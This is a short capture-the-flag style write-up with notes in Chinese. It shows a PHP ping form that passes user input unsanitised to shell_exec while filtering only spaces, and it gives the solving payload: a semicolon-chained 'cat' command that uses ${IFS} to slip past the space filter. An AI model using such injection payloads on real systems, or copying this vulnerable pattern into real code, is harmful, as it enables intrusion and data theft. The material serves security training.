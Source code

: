 ```php
<html>                                                                                                           
    <body>
        <form action="" method="get">
            <input type="text" name='ip' />
            <input type="submit" name="submit" value="提交">
<?php
$res = FALSE;
if (isset($_GET['submit'])){
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/ /", $ip, $m)){
        $cmd = shell_exec( 'ping  -c 4 ' . $ip );
        echo $cmd;
    }
}
?>
        </form>
    </body>
</html>
```

- 这题过滤了空格
  - payload:
    -   用\${IFS}绕过 127.0.0.1;cat${IFS}flag_1630334994276.php